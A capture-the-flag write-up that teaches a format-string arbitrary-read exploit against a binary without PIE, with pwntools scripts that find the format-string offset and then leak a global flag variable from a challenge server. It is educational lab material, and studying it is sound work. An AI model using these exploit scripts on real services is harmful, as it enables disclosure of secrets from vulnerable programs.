





[Source code](./handout/1-Arbitrary_Read)

Here is the source code the flag variable is global. That means it's not on the stack so the previous method won't work.  
Let's check the protection on the binary with the `checksec` command:  



We can see that `PIE` is not enabled.  
PIE means **Position Independent Executable**.  
It is a security feature that allows a program to be loaded into random memory locations every time it runs.  
In our case it's not enabled that means the program will load the same address every time we run it.  

Let's breakdown the exploit route  

###### 1. Retrieve the flag variable address from the binary
We can do this with the `nm` command  



The `flag` variable address is `0x00000000004040c0`

##### 2. Find the offset of the `name` variable in memory

I will use a python script to do it:  

```python
from pwn import *

HOST = "chal.sigpwny.com"
PORT = 1382

conn = remote(HOST, PORT)	
for i in range(1, 31):
	
	try:
		conn.recvuntil(b'? ')		
		conn.sendline(f"AAAAAAAA%{i}$p".encode())		
		out = conn.recvline()		
		log.info(f"[{i}] {out}")		
		if b'0x4141414141414141' in out:
			log.success(f"Offset found: {i}")		
			exit(0)		
	except EOFError:	
		log.warning(f"EOF at offset {i}")
```

So this script will iterate from value 1 to 31 and will send:

```python
AAAAAAAA%1$p
AAAAAAAA%2$p
AAAAAAAA%3$p
............
............
AAAAAAAA%30$p
```

If the result displayed by the program is:  

```python
AAAAAAAA0x4141414141414141
```

That means we found the start offset of the `name` variable



The offset the `name` address starts is `10` 

##### 3. Now we can write the final exploit!
We know that the `name` variable start at offset `10` so when we send data to name it start writing from this offset. name is `64` bytes. For example if we send in name `hello` it will take 5 bytes in name memory.

name layout after sending "hello"  
`[hello000][00000000][00000000]...[00000000]`  
Note: Every bloc is 8 bytes  

Now the payload we will send will look like this in memory:  
`[%11$sABC][0x4040c0][00000000]...[00000000]`  
It translate by **read whatever you find at the address of the 11th offset** and since we set the 11th offset to be the `flag` variable address, the program will read it! We unlocked arbitrary read.  

You can also do:  
`[%12$sABC][00000000][0x4040c0]...[00000000]`  
It translate by **read whatever you find at the address of the 12th offset**   


```python
from pwn import *

HOST = "chal.sigpwny.com"
PORT = 1382

conn = remote(HOST, PORT)  

flag_addr = 0x4040c0
payload = b"%11$s" + b"ABC" + p64(flag_addr, "little")
#payload = b"%12$s" + b"ABC" + b"C"*8 + p64(flag_addr, "little") # an alternative

conn.sendlineafter(b"? ",payload)
conn.interactive()
```

Script output:  




[2-Arbitrary_Write](./2-Arbitrary_Write.md)
